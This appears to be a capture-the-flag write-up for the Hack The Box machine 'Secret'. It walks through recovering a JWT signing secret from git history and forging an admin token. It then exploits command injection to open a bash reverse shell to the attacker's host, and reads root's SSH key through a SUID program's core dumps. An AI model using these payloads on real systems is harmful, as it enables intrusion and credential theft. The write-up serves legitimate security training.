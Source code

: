 ```yaml
---
title: htb secret
author: Yuchao
date: 2021-10-30 00:00:00 +0000
categories: [sec]
tags: [htb]
mermaid: true
---
```


## nmap
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.11.120
nmap -p 22,80,3000 -sCV -oA scans/nmap-tcpscripts 10.10.11.120
```

## See 80, 3000 port run the same thing:
1. maybe 80 is a reverse proxy of 3000.
2. maybe one developer version, one production version.
3. some misconfiguration

## Directory discovery
```bash
feroxbuster -u http://10.10.11.120
```

## use API by document
```bash
# /api/user/register
curl -d '{"name":"0xdf0xdf","email":"dfdfdfdf@secret.com","password":"password"}' -X POST http://10.10.11.120/api/user/register -H 'Content-Type: Application/json'
# /api/user/login
curl -d '{"email":"dfdfdfdf@secret.com","password":"password"}' -X POST http://10.10.11.120/api/user/login -H 'Content-Type: Application/json'
```
- -d data
- -X method
- -H header
- It supports these protocols: DICT, FILE, FTP, FTPS, GOPHER, GOPHERS, HTTP, HTTPS, IMAP, IMAPS, LDAP,  LDAPS,  MQTT,  POP3,  POP3S, RTMP,  RTMPS,  RTSP, SCP, SFTP, SMB, SMBS, SMTP, SMTPS, TELNET or TFTP.
- after the request, got a JWT.

## nginx
- port 80 is same with port 3000. 3000 does not have NGINX.
- suspect NGINX is just there to proxy for Express.

## analysis the source
- nodejs express application

#### find Token generation
``` javascript
// Dotenv loads environment variables from a .env file into process.env
const dotenv = require('dotenv')
dotenv.config();
```
{: .nolineno file="index.js" }

``` javascript
// create jwt
const jwt = require("jsonwebtoken");
const token = jwt.sign({ _id: user.id, name: user.name , email: user.email}, process.env.TOKEN_SECRET )
res.header('auth-token', token).send(token);
const verified = jwt.verify(token, process.env.TOKEN_SECRET);
```
{: .nolineno file="/routes/auth.js" }

#### find git information
```bash
git log --oneline
git show 67d8da7
```
get the TOKEN_SECRET from git old version

#### find some api need "admin"`s token
- like ``` /api/priv ``` and ``` /api/logs ```

## Forge JWT
https://jwt.io/
#### decode
``` pip3 install pyjwt ```
``` python
import jwt
token='eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTc4MjUzMzJjMmJhYjA0NDVjNDg0NjIiLCJuYW1lIjoiMHhkZjB4ZGYiLCJlbWFpbCI6ImRmZGZkZmRmQHNlY3JldC5jb20iLCJpYXQiOjE2MzUyNjM4Mjh9.rMfMsdYkfSbl4hr1RJFwY3qWfrA3LSWVlzUON_9EW_A'
secret='gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE'
# decode
jwt.decode(token, secret, algorithms=["HS256"])
# result-> {'_id': '617825332c2bab0445c48462', 'name': '0xdf0xdf', 'email': 'dfdfdfdf@secret.com', 'iat': 1635263828}
```
#### Create Token
```python
j = jwt.decode(token, secret, algorithms=["HS256"])
j['name'] = 'theadmin'
jwt.encode(j, secret, algorithm="HS256")
# result-> eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2MTc4MjUzMzJjMmJhYjA0NDVjNDg0NjIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRmZGZkZmRmQHNlY3JldC5jb20iLCJpYXQiOjE2MzUyNjM4Mjh9.cRgg1KkYXYSwz1xpknTFWTHnx8D-7UMewMubwAGsvQ8
```

#### try to use
```bash
curl -s 'http://10.10.11.120/api/priv' -H "auth-token: {token}" | jq .
```

## Command Injection
```javascript
if (name == 'theadmin'){
    const getLogs = `git log --oneline ${file}`;
    exec(getLogs, (err , output) =>{
```
try to manituplate to -> ``` git log --oneline; [any command] ```
``` curl -s 'http://10.10.11.120/api/logs?file=;ping+-c+1+10.10.14.6' -H "auth-token: {token}" | jq -r . ```
attacker machine -> ``` sudo tcpdump -ni tun0 icmp ```

Force to use G (Get) method.
- -d,  --data,  --data-binary  or --data-urlencode to be used in an HTTP GET request instead of the POST request.
```bash
curl -s -G 'http://10.10.11.120/api/logs' \
--data-urlencode 'file=/dev/null;id' \
-H "auth-token: {token}" \
| jq -r .
```

#### reverse shell
```bash
curl -s -G 'http://10.10.11.120/api/logs' \
--data-urlencode "file=>/dev/null;bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'" \
-H "auth-token: {token}" \
| jq -r .
```

attacker`s machine: ```  nc -lnvp 443 ```

## privesc

#### get information from coredump.

an suid program
```c
filecount(path, summary);
// source code of "count" program
// drop privs to limit file write
setuid(getuid());
// Enable coredump generation
prctl(PR_SET_DUMPABLE, 1);
printf("Save results a file? [y/N]: ");
res = getchar();
```
{: .nolineno file="code.c" }

- ```  ps auxww | grep count ``` find pid of the program
- background the program at getchar()
- find file handler in ``` /proc/[pid]/fd ```
- find "/root/.viminfo" as input file path can be readable
- as we can not access "/root", we can not ``` cat /root/.viminfo ```
- but we can read .viminfo from file handler
- We can get the SSH key from it.

#### another way, from Crash Dump

- Because Enabled coredump generation
- When a program crashes, the system stores the crash dump files in ``` /var/crash ```
- input ``` /root/.ssh/id_rsa ``` as path input
- ```  kill -l ``` list kill signals
- ```  kill -SIGSEGV {pid} ``` send a segmentation fault
- ``` /var/crash$ apport-unpack _opt_count.1000.crash /tmp/0xdf ``` decompress the dump into a given directory
- ``` strings -n 30 CoreDump ```
- then get the SSH key from it.

